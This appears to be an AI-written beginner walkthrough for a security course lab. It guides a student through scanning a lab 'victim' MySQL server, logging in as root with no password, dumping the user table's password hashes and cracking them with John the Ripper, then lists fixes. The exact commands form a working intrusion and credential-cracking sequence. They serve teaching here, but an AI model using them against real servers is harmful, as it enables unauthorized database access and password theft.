





Alright Iqbal — let’s break this **Lab 2** down into super clear, easy, baby-steps level instructions, like we’re teaching someone who’s never done this before. I’ll guide you one step at a time for each task, with exact commands and what they mean. Ready? Let’s go!

---

## 📚 **Lab 2 Full Beginner Guide — Step-by-Step**

---

### 🛠️ **Tools You’ll Use**
- **Kali Linux** (your hacking playground)
- **mysql / mariadb-client** (to connect to database)
- **hashid / hash-identifier** (to detect what kind of hash)
- **John the Ripper / Hashcat** (to crack passwords)
- **Wireshark (optional)** (to see if passwords travel unencrypted)

---

## ✅ **PART 1: Service Enumeration and Initial Access**

**What you’re doing**  
➡️ Finding out what database is on the victim machine and trying to connect to it from Kali.

---

### 🔍 1.1 Check for Open Ports  
**Command:**
```bash
nmap -sV [target-ip]
```
**Explanation:**
- `nmap` → Network scanner
- `-sV` → Show service version
- `[target-ip]` → Replace this with your victim machine IP (example: 192.168.56.101)

**What you’ll see:**
You should see something like:
```
3306/tcp open  mysql
```
Meaning port **3306** is open for **MySQL** database.



---

### 🔑 1.2 Try Connecting to Database  
**Command:**
```bash
mysql -h [target-ip] -u root -p
```
**Explanation:**
- `mysql` → Connect to MySQL
- `-h` → Host (IP address of victim)
- `-u` → Username
- `-p` → Prompt for password (or leave blank)

**What might happen:**
- You might get an **Access Denied** error.
- Or it might let you in without a password (this is a cryptographic problem).


### 📋 1.3 If Connection Error Happens  
If it fails:
- Try connecting without `-p`
```bash
mysql -h 192.168.153.140 -P 3306 -u root --ssl-mode=DISABLED
```
If this works — it’s a huge flaw because **no password = bad security**.



✅ **Document**  
- Command you used  
- What happened (error / success)

#### 🧪 1.4: Successfully connected by skipping SSL
```bash
mysql -h 192.168.153.140 -P 3306 -u root --password= --skip-ssl
```

✅ **Success!** Connected to the MySQL service:
```
Welcome to the MariaDB monitor...
Server version: 5.0.51a-3ubuntu5 (Ubuntu)
```


### 🧠 Explanation:

- The **MySQL client tried to use TLS/SSL by default**, but the **server did not support it** or was using an **older version (MySQL 5.0.51a)** incompatible with the client's TLS version.
- Using the `--skip-ssl` flag **disabled SSL negotiation**, which allowed the connection to succeed.
- The **client `ssl-mode` option** is not recognized by this older version of `mysql` on Kali. Instead, `--skip-ssl` worked.


---

## ✅ **PART 2: Enumeration of Users and Weaknesses**

**What you’re doing**  
➡️ Looking inside the database to see the list of users and checking if any of them have no passwords.

---

### 📚 2.1 Show All Databases  
**Command:**
```sql
SHOW DATABASES;
```


### 📂 2.2 Pick a Database  
Example:
```sql
USE mysql;
```



### 📑 2.3 Show Tables  
**Command:**
```sql
SHOW TABLES;
```



### 👥 2.4 Look at User Table  
**Command:**
```sql
SELECT User, Host, Password FROM user;
```

**What you’ll see:**  
A list like this:
```
+------+-----------+------------------+
| User | Host      | Password         |
+------+-----------+------------------+
| root | localhost | *ABCD1234HASH... |
| test | %         |                  |
+------+-----------+------------------+
```



✅ **Check**
- Any user with **no password** (empty) → very bad  
- Weak hash (too short or old format)

---

### ❓ Is No Password a Crypto Failure?
**Answer:**  
Yes — it breaks the idea of **secure cryptographic authentication**. Passwords should always be required, hashed, and protected.

---

## ✅ **PART 3: Password Hash Discovery**

**What you’re doing**  
➡️ Finding hashed passwords in the database.

---

### 🔍 3.1 Look for Hashes  
You already did:
```sql
SELECT User, Host, Password FROM user;
```

✅ Copy the hash value for cracking.

---

### 🕵️‍♂️ 3.2 Identify Hash Type

Use either tool:

**Command (hashid):**
```bash
hashid [hash]
```

**Command (hash-identifier):**
```bash
hash-identifier
```
- Paste the hash inside the tool and see what it says (could be `MySQL323`, `MySQLSHA1`, etc.)

---

### ❓ Weakness Explanation
If it’s a weak hashing method like **MySQL323**:
- It’s too short
- Can be easily cracked  
- Not salted (salt = extra random value to make it harder)

---

## ✅ **PART 4: Offline Hash Cracking**

**What you’re doing**  
➡️ Trying to break the hashed password using a cracking tool.

---

### 🔨 4.1 Crack with John the Ripper

**Save hashes to a file**
```bash
echo "[hash]" > hashes.txt
```

**Run John**
```bash
john --format=mysql --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
**Explanation:**
- `--format=mysql` → Type of hash
- `--wordlist=...` → Wordlist to use (rockyou.txt is famous)
- `hashes.txt` → File with your hash

**Check Cracked Password**
```bash
john --show hashes.txt
```

✅ If it cracks → Write down the cracked password

---

## ✅ **PART 5: Cryptographic Analysis & Mitigation**

**What you’re doing**  
➡️ Summarizing what you found wrong, and suggesting how to fix it.

---

### 🔍 5.1 Issues Found:
- **No passwords**  
- **Weak password hashes (MySQL323)**  
- **Possible unencrypted data transmission**

---

### 🛡️ 5.2 Solutions:
- **Use strong password hashing**  
  - Replace `MySQL323` with `bcrypt` or `argon2`
- **Force all users to have strong passwords**
- **Encrypt connections**  
  - Use **SSL/TLS** for database connections
- **Disable remote root logins**

---

## ✅ (Optional) Wireshark Check  
Open Wireshark and capture traffic while connecting to MySQL:
- Filter by `mysql`  
- Check if you can see password data in plain text → If yes = huge problem